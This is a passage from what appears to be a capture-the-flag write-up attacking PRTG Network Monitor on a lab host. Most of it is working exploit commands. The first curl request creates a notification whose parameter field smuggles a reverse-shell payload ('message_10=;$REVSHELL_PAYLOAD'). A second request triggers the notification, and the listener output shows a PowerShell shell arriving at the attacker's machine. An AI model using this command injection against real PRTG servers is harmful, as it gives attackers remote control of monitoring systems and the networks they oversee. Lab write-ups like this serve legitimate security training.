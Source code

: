 ```sh
❯ RESPONSE=$(curl -s -H "Cookie: OCTOPUS1813713946=$OCTOPUS1813713946" -H "X-Requested-With: XMLHttpRequest" "http://10.10.10.152/editsettings" -X POST --data-urlencode "name_=Revshell" --data-urlencode "tags_=" --data-urlencode "active_=1" --data-urlencode "schedule_=-1|None|" --data-urlencode "postpone_=1" --data-urlencode "comments=" --data-urlencode "summode_=2" --data-urlencode "summarysubject_=[%sitename] %summarycount Summarized Notifications" --data-urlencode "summinutes_=1" --data-urlencode "accessrights_=1" --data-urlencode "accessrights_=1" --data-urlencode "accessrights_201=0" --data-urlencode "active_1=0" --data-urlencode "addressuserid_1=-1" --data-urlencode "addressgroupid_1=-1" --data-urlencode "address_1=" --data-urlencode "subject_1=[%sitename] %device %name %status %down (%message)" --data-urlencode "contenttype_1=text/html" --data-urlencode "customtext_1=" --data-urlencode "priority_1=0" --data-urlencode "active_17=0" --data-urlencode "addressuserid_17=-1" --data-urlencode "addressgroupid_17=-1" --data-urlencode "message_17=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_8=0" --data-urlencode "addressuserid_8=-1" --data-urlencode "addressgroupid_8=-1" --data-urlencode "address_8=" --data-urlencode "message_8=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_2=0" --data-urlencode "eventlogfile_2=application" --data-urlencode "sender_2=PRTG Network Monitor" --data-urlencode "eventtype_2=error" --data-urlencode "message_2=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_13=0" --data-urlencode "sysloghost_13=" --data-urlencode "syslogport_13=514" --data-urlencode "syslogfacility_13=1" --data-urlencode "syslogencoding_13=1" --data-urlencode "message_13=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_14=0" --data-urlencode "snmphost_14=" --data-urlencode "snmpport_14=162" --data-urlencode "snmpcommunity_14=" --data-urlencode "snmptrapspec_14=0" --data-urlencode "messageid_14=0" --data-urlencode "message_14=[%sitename] %device %name %status %down (%message)" --data-urlencode "senderip_14=" --data-urlencode "active_9=0" --data-urlencode "url_9=" --data-urlencode "urlsniselect_9=0" --data-urlencode "urlsniname_9=" --data-urlencode "postdata_9=" --data-urlencode "active_10=0" --data-urlencode "active_10=10" --data-urlencode "address_10=Demo EXE Notification - OutFile.ps1" --data-urlencode "message_10=;$REVSHELL_PAYLOAD" --data-urlencode "windowslogindomain_10=" --data-urlencode "windowsloginusername_10=" --data-urlencode "windowsloginpassword_10=" --data-urlencode "timeout_10=60" --data-urlencode "active_15=0" --data-urlencode "accesskeyid_15=" --data-urlencode "secretaccesskeyid_15=" --data-urlencode "arn_15=" --data-urlencode "subject_15=" --data-urlencode "message_15=[%sitename] %device %name %status %down (%message)" --data-urlencode "active_16=0" --data-urlencode "isusergroup_16=1" --data-urlencode "addressgroupid_16=200|PRTG Administrators" --data-urlencode "ticketuserid_16=100|PRTG System Administrator" --data-urlencode "subject_16=%device %name %status %down (%message)" --data-urlencode "message_16=Sensor: %name\nStatus: %status %down\n\nDate/Time: %datetime (%timezone)\nLast Result: %lastvalue\nLast Message: %message\n\nProbe: %probe\nGroup: %group\nDevice: %device (%host)\n\nLast Scan: %lastcheck\nLast Up: %lastup\nLast Down: %lastdown\nUptime: %uptime\nDowntime: %downtime\nCumulated since: %cumsince\nLocation: %location\n\n" --data-urlencode "autoclose_16=1" --data-urlencode "objecttype=notification" --data-urlencode "id=new"); \
    ID=$(echo "$RESPONSE" | jq -r ".objid")
```

Finally, let's trigger the payload by sending a test notification request.

```sh
❯ curl -s -o "/dev/null" -H "Cookie: OCTOPUS1813713946=$OCTOPUS1813713946" "http://10.10.10.152/api/notificationtest.htm" -X "POST" --data-urlencode "id=$ID"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.152] 49887
PS C:\Windows\system32>
```
